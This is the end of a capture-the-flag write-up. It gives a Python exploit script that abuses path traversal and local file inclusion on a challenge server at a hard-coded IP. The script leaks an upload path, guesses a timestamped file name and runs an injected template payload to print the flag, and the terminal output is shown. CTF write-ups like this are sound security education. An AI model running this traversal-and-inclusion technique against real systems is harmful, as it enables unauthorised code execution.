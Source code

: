 And to apply all that we've learned I put together the following rushed python exploit:

```
 #!/usr/bin/python  
 import requests  

 headers = {'Content-type': 'application/x-www-form-urlencoded'}  
 payload = '<@ echo(get_flag()); @>'   
 # get current server information by generating an error.  
 print "[+] Fetching POST_PATH ... "  
 s = requests.Session()  
 r = s.post('http://107.189.94.253/?page=../../includes/error&SCRIPT_EXT=.inc&DEBUG=on',data=payload,headers=headers)   
 # parse the post_path  
 response = r.text.splitlines()  
 for line in response:  
      if "POST_PATH" in line:  
           pp = line.split(" ")  
           print "[+] Post path is: " + pp[3]  
           ts = pp[3].split("/")  
           print "[+] Current timestamp: " + ts[2]  
           print "[+] Data folder: " + ts[4]  
 # predict the future  
 print "[+] Trying to predict the post data file this takes 8 seconds or so"  
 thetime = long(ts[2],16)  
 for trying in range(0,8,1):  
      trytime = thetime +3  
      strtime = hex(trytime)  
      strtime = strtime.upper()  
      strtime = strtime.replace("0X", "")  
      strtime = strtime.replace("L", "")  
      datadir = ts[4].replace(".0","")  
      guess = "/uploads/" + strtime + "//" + datadir  
      r = s.post('http://107.189.94.253/?page=..' + guess +'&SCRIPT_EXT=.0&DEBUG=on',data=payload,headers=headers)  
      response = r.text.splitlines()  
      for line in response:  
           if "flag{" in line:  
                print "[+] Flag: " + line  
                quit()  
```

Which when run gives us the following flag:

```
 root@mankrik:~/plaid/qttp# ./qtpwner.py   
 [+] Fetching POST_PATH ...   
 [+] Post path is: /uploads/E713E9DC1654F//data1d2fc014.0  
 [+] Current timestamp: E713E9DC1654F  
 [+] Data folder: data1d2fc014.0  
 [+] Trying to predict the post data file this takes 8 seconds or so  
 [+] Flag: flag{1down_2togo_hint_650sp1}  
```

What a fun one and 200 points in the bank!

Writeup: Dacat
